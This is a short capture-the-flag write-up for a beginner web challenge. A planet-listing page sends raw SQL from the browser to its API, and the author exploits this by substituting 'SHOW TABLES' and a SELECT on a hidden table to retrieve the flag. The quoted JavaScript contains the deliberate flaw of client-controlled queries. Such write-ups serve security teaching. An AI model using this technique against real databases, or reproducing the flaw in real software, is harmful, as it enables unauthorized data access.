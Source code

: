 # Why2025 Planets - Web 50

I just started programming and created my first website, an overview of all the planets in our solar system. Can you check if I didn't leave any security issues in it?

<img width="1920" height="1080" alt="Screenshot_2025-08-10_18_55_36" src="https://github.com/user-attachments/assets/253f3984-c347-441e-9557-dcaca9f8d05e" />

## Solution

When inspecting the html, there is an interesting fetch request that retrieves the planet information displayed on the page from an SQL database:

'''

        try {
            fetch("/api.php", {
                method: "POST",
                body: "query=SELECT * FROM planets",
                headers: {"Content-type": "application/x-www-form-urlencoded; charset=UTF-8"},
            })
            .then(response => response.json())
            .then(response => addPlanets(response))
        } catch (error) {
            console.error(error.message);
        }
        
	function addPlanets(planets){

            let container  = document.getElementById("container");
            for (planet in planets){
                let div = document.createElement("div");
                div.classList = "planet";
    
                let h2 = document.createElement("h2");
                h2.textContent = planets[planet].name;
    
                let img = document.createElement("img");
                img.src = "images/" + planets[planet].image;
                img.alt = planets[planet].name;
    
                let p = document.createElement("p");
                p.textContent = planets[planet].description;
    
                div.appendChild(h2);
                div.appendChild(img);
                div.appendChild(p);
                container.appendChild(div);
            }
	}
    
'''

From here, I try to enumerate the SQL server more and use the following as values for the "query" parameter:

'''
SHOW DATABASES

SHOW TABLES
'''
The results of the SHOW TABLES command displays the tables in the database:

<img width="1088" height="562" alt="image" src="https://github.com/user-attachments/assets/6aeb086a-9d22-4722-bfde-7d66a6805f65" />


There is an auspicious table on the database named "abandoned_planets", with the payload of "SELECT * FROM abandoned_planets" we capture the flag.

<img width="1220" height="729" alt="image" src="https://github.com/user-attachments/assets/9872ed78-5a84-4c81-b50b-67af656a44e7" />




